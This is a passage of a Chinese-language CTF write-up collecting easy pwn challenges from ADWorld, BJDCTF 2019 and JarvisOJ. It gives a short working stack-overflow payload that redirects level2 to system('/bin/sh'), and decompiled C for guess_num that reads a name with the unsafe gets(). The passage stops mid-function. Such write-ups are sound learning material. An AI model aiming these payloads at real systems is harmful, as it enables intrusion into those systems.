 ```yaml
---
title: 近期简单 Pwn 合集
date: 2020-02-03 14:54:01
tags:
  - 整数溢出
  - 栈漏洞
  - fsb
  - 堆漏洞
  - RSA
categories:
  - 系统安全
---
```


近期做的一些简单 Pwn 题记录。题目来自 ADWorld 新手区、BJDCTF 2019、JarvisOJ。



## ADWorld 新手区

### level2

基本的栈溢出到 `system` 地址随后传入 `/bin/sh` 地址，后者可通过 ROPgadget 搜索到。

```python
ru('Input:\n')
binsh = 0x804a024
payload = flat('a'*(0x88+4),elf.plt['system'],'a'*4, binsh)
sl(payload)
```

### guess_num

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  int v4; // [rsp+4h] [rbp-3Ch]
  int i; // [rsp+8h] [rbp-38h]
  int v6; // [rsp+Ch] [rbp-34h]
  char v7; // [rsp+10h] [rbp-30h]
  unsigned int seed[2]; // [rsp+30h] [rbp-10h]
  unsigned __int64 v9; // [rsp+38h] [rbp-8h]

  v9 = __readfsqword(0x28u);
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
  v4 = 0;
  v6 = 0;
  *(_QWORD *)seed = sub_BB0();
  puts("-------------------------------");
  puts("Welcome to a guess number game!");
  puts("-------------------------------");
  puts("Please let me know your name!");
  printf("Your name:", 0LL);
  gets(&v7);
  srand(seed[0]);
  for (i = 0; i <= 9; ++i)
  {
    v6 = rand() % 6 + 1;
    printf("-------------Turn:%d-------------\n", (unsigned int)(i + 1));
    printf("Please input your guess number:");
    __isoc99_scanf("%d", &v4);
    puts("---------------------------------");
    if (v4 != v6)
```